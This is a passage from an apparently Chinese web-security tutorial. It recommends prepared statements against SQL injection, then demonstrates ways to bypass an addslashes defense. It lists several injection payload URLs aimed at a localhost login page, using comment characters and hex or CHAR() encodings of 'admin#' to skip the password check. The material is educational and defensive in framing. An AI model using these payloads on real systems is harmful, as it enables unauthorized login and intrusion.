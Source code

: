 绑定变量使用预编译语句是预防SQL注入的最佳方式，因为使用预编译的SQL语句语义不会发生改变，在SQL语句中，变量用问号?表示，攻击者无法改变SQL语句的结构，从根本上杜绝了SQL注入攻击的发生。

**代码示例：**

[![](./img/86005/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t017c3e178b42dbea96.png)

**参考：**

《Web安全之SQL注入攻击技巧与防范》：

[http://www.plhwin.com/2014/06/13/web-security-sql/](http://www.plhwin.com/2014/06/13/web-security-sql/) 

<br>

**二、 几种绕过姿势**

下面列举几个防御与绕过的例子：

**例子1：addslashes**

**防御：**

[![](./img/86005/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01caf36fac95a91e52.png)

这里用了addslashes转义。

**绕过：**

1）将字符串转为16进制编码数据或使用char函数（十进制）进行转化（因为数据库会自动把16进制转化）

2）用注释符去掉输入密码部分如“– /* #”

**payload:**

```
http://localhost/injection/user.php?username=admin-- hack
```

(因为有的SQL要求–后要有空格，所以此处加上了hack)

```
http://localhost/injection/user.php?username=admin/*
```

（escape不转义/*）

```
http://localhost/injection/user.php?username=admin%23
```

（这里的%23即为#，注释掉后面的密码部分。注意IE浏览器会将#转换为空）

```
http://localhost/injection/user.php?username=0x61646d696e23
```

（admin# –&gt;0x61646d696e23）

```
http://localhost/injection/user.php?username=CHAR(97,100, 109, 105, 110, 35)
```

（admin# –&gt;CHAR(97, 100, 109, 105, 110, 35)）
